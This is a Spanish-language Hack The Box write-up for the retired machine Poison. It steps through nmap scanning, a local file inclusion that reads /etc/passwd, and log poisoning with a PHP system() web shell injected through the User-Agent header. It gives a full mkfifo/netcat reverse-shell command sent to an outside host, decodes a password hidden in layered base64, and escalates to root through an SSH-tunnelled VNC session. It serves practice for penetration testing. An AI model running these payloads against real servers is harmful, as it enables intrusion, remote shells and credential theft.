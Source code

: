 ```yaml
---
layout: post
title:  "OSCP Path ~ Poison de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada POISON siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, LFI, RCE, Burpsuite, PHP, RDP-file, Maquinas Retiradas, Writeup, Hacking
---
```


# Poison ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```
Lanzamos un pequeño fuzzing desde nmap:
```bash
# cat WebScan 
# Nmap 7.91 scan initiated Tue Jul 27 17:45:46 2021 as: nmap --script http-enum -p80 -oN WebScan 10.10.10.84
Nmap scan report for 10.10.10.84
Host is up (0.041s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /info.php: Possible information file
|_  /phpinfo.php: Possible information file
```
Procedemos a lanzar un whatweb:
```bash
# cat Whatweb 
http://10.10.10.84:80 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[FreeBSD][Apache/2.4.29 (FreeBSD) PHP/5.6.32], IP[10.10.10.84], PHP[5.6.32], X-Powered-By[PHP/5.6.32]
```
 Procedemos a hechar un vistazo a la web
 Apuntamos a la web y vemos que es una pagina para testear scrips locales,
 no introducimos nada y presionamos el enter, nos saca que pide un archivo con atraves de variable file... `probamos un LFI`
 ```bash
 # curl -X GET "http://10.10.10.84/browse.php?file=../../../../../etc/passwd" 
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
"charix:*:1001:1001:charix:/home/charix:/bin/csh"
```
Enumeramos al `user:charix` y verificamos que tenemos un LFI. AHora procedemos a intentar pasasr el LFI a RCE buscando en la ruta /var/log/httpd-acces.log
```bash
 # curl -X GET "http://10.10.10.84/browse.php?file=/var/log/httpd-acces.log
 ```
 
 Procedemos a injecctar codigo PHP en el User Agent ya que tenemos acceso a la ruta `/var/log/httpd-access.log`
 ```bash
 GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1
Host: 10.10.10.84
"User-Agent: <?php system($_GET['cmd']); ?>                                              "
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
 ```
 Verificamos que en la respuesta del lado del servidor se este ejecutando nuestro codigo `php`
 ```bash
 </b>:  system(): Cannot execute a blank command in <b>/var/log/httpd-access.log </b>
 ```
Procedemos a hacer una peticion web de la siguiente forma:
```bash
curl -s -X GET "10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
Y vemos que no nos funciona, asique procedemos a urlencodear el comando malicioso. Lo sustituimos en la anterior y procedemos a hacer la peticion.
```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.0.0.1%201234%20%3E%2Ftmp%2Ff
```
Al ganar acceso al sistema, encontramos un archivo con una cadena en base64 encodeada como 13 veces minimo:
```bash
# cat decryp_password_bs64             
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```
Procedemos a montarnos un script para decodearlo a traves de un bucle:
```python3
#!/usr/bin/python3

from base64 import b64decode

pass_en = "cadena de arriba...azVHU2tkalJGbExWRlZTCmMxSkdjRFpOUkd4RVdub3dPVU5uUFQwSwo="

for i in range(13):
        pass_en = b64decode(pass_en)

print(pass_en)
```
Ejecutamos el script para ver el output:
```bash
# python3 decrypt.py    
b'Charix!2#4%6&8(0'
```
Creamos un archivo de credenciales:
```bash
user charix
pass Charix!2#4%6&8(0
```
# Ganando acceso por SSH
Con las credenciales obtenidas procedemos a intentar conectar por el servicio SSH
```bash
# ssh charix@10.10.10.84 
```
Accedemos correctamente al servicio SSH
Enumeramos el directorio home de charix y nos pasamos el archivo secret.zip a nuestra maquina
```bash
charix@Poison:~ % ls
secret.zip      user.txt
```
Sacamos la flag de `user.txt`
```bash
charix@Poison:~ % cat user.txt 
eaacdfb2d141b72a58923xxxxxxxxxxxx
```
# Escalada de privilegios
Procedemos a enumerar el sistema como siempre
```bash
charix@Poison:~ % ps -aux
root   529   0.0  0.9  23620  8868 v0- I    08:38    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/p
```
Encontramos un servicio `RDP de root`
Probamos a autenticarnos con un archivo al servicio RDP usando para ello `vcnviewer`

Unzipeamos el secret.zip ~ nos pide passwd ~ metemos la misma paswd de charix. Obtenemos un archivo secret que pinta no ser legible

Procedemos a tunelizar el puerto 5901 que es el servicio RDP atraves de ssh
```bash
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```
Procdemos a conectarnos al servicio RDP usando vncviewer usando un archivo como contraseña
```bash
"# vncviewer 127.0.0.1:5901 -passwd secret                          "    
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
``` 
Cnectamos correctamente y sacamos la flag de `root.txt`

Maquina Rooteada =)




